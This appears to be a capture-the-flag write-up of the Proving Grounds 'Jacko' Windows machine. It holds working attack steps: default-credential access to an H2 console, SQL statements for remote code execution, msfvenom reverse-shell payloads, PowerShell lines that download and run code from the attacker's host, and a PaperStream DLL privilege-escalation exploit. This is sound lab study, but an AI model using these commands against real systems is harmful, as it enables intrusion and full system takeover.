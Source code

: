 ```yaml
---
description: Writeup for Jacko from Offensive Security Proving Grounds (PG)
---
```


# Jacko

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.66 -t full`

![](../../.gitbook/assets/021d0b8afd7649f39fca8d24b8bbf7fb.png)

`nmapAutomator.sh -H 192.168.134.66 -t vulns`

![](../../.gitbook/assets/1072d5ba8679429aaeb01136da99232d.png)

### SMB

Null sessions not allowed

### HTTP

Port 80:

![](../../.gitbook/assets/34c2f6718a9b486c8d5790dcb7175e60.png)

Port 8082:

![](../../.gitbook/assets/666f9bc5257044d6bed3cdc7acc76aaa.png)

The default credentials `sa:` worked. Here we can run SQL queries.

![](../../.gitbook/assets/0bfad5b5c0984bf7a22935c519293093.png)

`SHOW DATABASES` shows us that there is a `PUBLIC` schema.

![](../../.gitbook/assets/7084ba7897af4583ac7b68e660231dfe.png)

However, further enumeration found nothing much interesting in the database.

We see the version of the product (H2 1.4.199). This version suffers from an RCE vulnerability.

![](../../.gitbook/assets/b79123062d834793a967f0c26b95e917.png)

Reference: [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

If we execute the following SQL statements:

```
-- Write native library
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90), ... ,CHAR(0x00),CHAR(0x00),CHAR(0x00),CHAR(0x00),'"'), 'ISO-8859-1', '', '', '', '', '');

-- Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

we can achieve RCE.

With this, we can run the `systeminfo` command. This shows us that the architecture is x64.

![](../../.gitbook/assets/ac23f5cc520b4c4c9c5fa4ef8af134d7.png)

`msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.49.103 LPORT=445 -f exe > reverse.exe`

**Note that ports like 4242, 4444, etc. did not work. I used port 445 since I realised that I was able to copy files via SMB, so it likely won't be blocked by the firewall.**

Copy the payload to the victim machine via SMB:

```sql
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.103\\ROPNOP\\reverse.exe c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![](../../.gitbook/assets/209d74a651a148b18f8652c74a1c3fc3.png)

Running the payload:

```sql
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Receiving the reverse shell:

![](../../.gitbook/assets/364a758bbb304e99aaf1488d22bc523f.png)

![](<../../.gitbook/assets/4efd57e982134262906d2d5ba26b4385 (1).png>)

### Privilege Escalation

#### SeImpersonatePrivilege

`c:\windows\system32\whoami.exe /priv`

We see that `SeImpersonatePrivilege` is enabled.

![](../../.gitbook/assets/22f6c74ab5294d5c859882a40b109743.png)

After we locate the location of `powershell.exe`, we can run powershell.

![](../../.gitbook/assets/a5793bbfd02e41a98d89c71345a6ef1d.png)

Using the `GetCLSID.ps1` script from [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/), we can attempt to get CLSIDs.

`IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.103/GetCLSID.ps1')`

![](../../.gitbook/assets/db1ad6867bb744199270e1242d9b5498.png)

This does not work because we cannot find any CLSIDs.

#### Windows OS Exploits

Transfer WinPEAS:

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/winPEASx86.exe","C:\users\tony\winPEASx86.exe")`

Run WinPEAS:

`c:\users\tony\winpeasx86.exe`

![](../../.gitbook/assets/348a5f7d010840c59a56d4843b05db60.png)

We could try these as a last resort.

#### Vulnerable Apps

**Took quite a while to figure this out. Always check for vulnerable apps if WinPEAS does not find anything useful!**

![](../../.gitbook/assets/fa85991e9b8340df8fed96b2c26388f7.png)

![](../../.gitbook/assets/7241af1f69a64de3bf9be18186832ce7.png)

We can check the PaperStream IP version, it is 1.42

![](../../.gitbook/assets/59a45612ea384eac8bcfd17c8ad03679.png)

This version is vulnerable to a privilege escalation vulnerability.

PaperStream IP exploit: [https://www.exploit-db.com/exploits/49382](https://www.exploit-db.com/exploits/49382)

`msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.103 LPORT=445`

![](../../.gitbook/assets/b67212d77f5146f6a15675a63d98d0ae.png)

**I initially made the mistake of using an `x64` payload. Note that the application is found under `Program Files (x86)`, so it cannot use an `x64` DLL.**

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/shell.dll","C:\users\tony\shell.dll")`

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/49382.ps1","C:\users\tony\49382.ps1")`

Run the exploit: `C:\users\tony\49382.ps1`

![](../../.gitbook/assets/09234d8c21064bfd90fac875bd05e53d.png)

Once the exploit is triggered, we obtain our reverse shell.

![](../../.gitbook/assets/002ed5fe3e274bb2926b32474c8ebfe6.png)

The exploit works and we received a SYSTEM shell.

![](../../.gitbook/assets/ff7dd418cef0408e81323e49bafb1249.png)

![](../../.gitbook/assets/34ee540f2df94dcaaae6914ef1baa47e.png)
